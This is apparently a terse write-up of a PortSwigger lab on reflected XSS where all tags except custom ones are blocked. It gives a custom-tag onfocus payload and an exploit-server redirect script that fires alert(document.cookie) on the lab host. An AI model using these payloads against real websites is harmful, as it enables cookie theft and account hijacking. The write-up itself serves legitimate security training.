


> ## platform -> portswigger
> ### taget -> Lab: Reflected XSS into HTML context with all tags blocked except custom ones

---
**Where is Vulnerability::  in search parameter and all tags blocked except custom ones**
**Goal: To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.**

---


### Steps:
1. Open the lab in your browser.
2. and check the search parameter.
3. javascript tags all blocked use own custom tag
4. i will use this payload
```javascript
<mytag id=x onfocus=alert(1) tabindex=0>hello</mytag>#x

```
5.  this is triggered
6. now go to exploit server and excute this
```javascript

<script>
location = 'https://0a8600ed0373867e81d670a000d400c3.web-security-academy.net/?search=%3Cmytag%20id=x%20onfocus=alert(document.cookie)%20tabindex=0%3Ehello%3C/mytag%3E#x';
</script>
```

7. exploit triggered 
